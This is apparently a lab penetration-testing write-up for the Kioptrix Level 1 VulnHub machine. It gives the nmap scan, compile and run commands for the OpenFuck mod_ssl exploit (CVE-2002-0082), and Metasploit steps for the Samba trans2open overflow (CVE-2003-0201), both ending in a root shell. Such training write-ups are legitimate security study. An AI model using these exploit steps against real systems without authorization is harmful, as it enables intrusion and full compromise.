

# Kioptrix Level 1 — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (PDF)](./Kioptrix_1_Detailed_Writeup.pdf)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | Kioptrix Level 1 (VulnHub) |
| **Difficulty** | Easy |
| **Assessment Type** | Classic Linux Network Penetration Test |
| **Key Vulnerabilities** | Apache mod_ssl 2.8.4 Buffer Overflow (`CVE-2002-0082` - OpenFuck), Samba 2.2.1a `trans2open` Buffer Overflow (`CVE-2003-0201`) |
| **Target OS** | Red Hat Linux 7.2 |
| **Result** | Instant Root Shell Execution |

---

## 🎯 Attack Chain



---

## 🔍 Vulnerability Summary

| Vulnerability | Severity | CVE | Service / Port | Impact |
| :--- | :---: | :---: | :---: | :---: |
| **Apache mod_ssl Buffer Overflow** | Critical | CVE-2002-0082 | Port 443 (mod_ssl 2.8.4) | Remote Buffer Overflow / Root RCE |
| **Samba trans2open Buffer Overflow** | Critical | CVE-2003-0201 | Port 139 (Samba 2.2.1a) | Remote Buffer Overflow / Root RCE |

---

## 🛠️ Step-by-Step Walkthrough

### Phase 1: Port Scanning

```bash
nmap -sV -sC -p- -T4 <TARGET_IP>
```
**Identified Services:**
* `80/tcp` — Apache 1.3.20 (Unix)
* `139/tcp` — Samba smbd (Unix)
* `443/tcp` — Apache 1.3.20 with `mod_ssl/2.8.4` and `OpenSSL/0.9.6b`

### Phase 2: Exploitation Vector 1 — OpenFuck (CVE-2002-0082)

1. Obtain the updated `OpenFuck.c` exploit source code.
2. Compile with OpenSSL support:
   ```bash
   gcc -o OpenFuck OpenFuck.c -lcrypto
   ```
3. Search for the Red Hat Linux 7.2 Apache 1.3.20 target offset:
   ```bash
   ./OpenFuck | grep "7.2"
   ```
   Target code: `0x6b` (Red Hat Linux 7.2 Apache 1.3.20).
4. Run the exploit:
   ```bash
   ./OpenFuck 0x6b <TARGET_IP> 443 -c 40
   ```
   The exploit triggers the buffer overflow in `mod_ssl`, drops a ptrace local privilege escalation payload, and returns an interactive root shell:
   ```bash
   whoami
   root
   ```

### Phase 3: Exploitation Vector 2 — Samba trans2open (CVE-2003-0201)

Alternatively, Samba 2.2.1a is vulnerable to an off-by-one buffer overflow in the `trans2open` function:
```bash
msfconsole -q
use exploit/linux/samba/trans2open
set RHOSTS <TARGET_IP>
run
```
Session opened with full `root` authority!
